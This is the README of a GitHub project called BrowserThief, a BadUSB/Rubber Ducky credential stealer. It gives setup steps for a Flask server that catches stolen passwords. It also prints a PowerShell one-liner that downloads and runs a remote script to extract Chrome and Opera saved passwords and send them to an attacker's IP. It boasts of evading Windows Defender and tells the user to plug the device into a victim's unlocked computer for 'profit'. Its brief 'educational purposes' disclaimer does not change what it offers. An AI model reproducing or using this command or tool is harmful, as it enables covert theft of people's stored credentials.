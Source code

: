 # BrowserThief
All in one Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. It currently extract passwords from **Opera/OperaGX/Chrome**, I will be adding support for more browsers like Firefox soon!
<br/><br/>
## Features
- The powershell script runs in-memory and avoids writing to disk which evades Windows Defender detection
- Powershell execution policy doesn't affect it whatsoever
- Includes an arduino RubberDucky script that runs in less than 2 seconds
- Extracts Passwords from all Chrome Profiles, Opera and OperaGX
- Will be adding Firefox soon
<br/><br/>
## Setup

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/ScribblerCoder/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```


## Instructions

-  To simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ScribblerCoder/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Setup](https://github.com/ScribblerCoder/BrowserThief#Setup) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰


## PoC

### Victim POV
Just plug your bad usb and watch the magic
<p align="center">
<img src="test/victim.gif?raw=true" width="800">
</p>
<br/>

### Attacker POV
<p align="center">
<img src="test/attacker.gif?raw=true" width="800">
</p>

<br/>

## Credits

This project wouldn't exist without the guidance of these examples 

* https://github.com/thisismyrobot/chrome-decrypt.ps1
* https://github.com/ohyicong/decrypt-chrome-passwords
* https://github.com/p0z/CPD
* https://github.com/ValterBricca/SQLite.Net-PCL
* https://github.com/ericsink/SQLitePCL.raw
* https://github.com/byt3bl33d3r/chrome-decrypter
* https://github.com/agentzex/chrome_v80_password_grabber
* https://github.com/0xfd3/Chrome-Password-Recovery 

## Disclaimer

This is for educational purposes only. I bear no responsiblity for misuses of this project
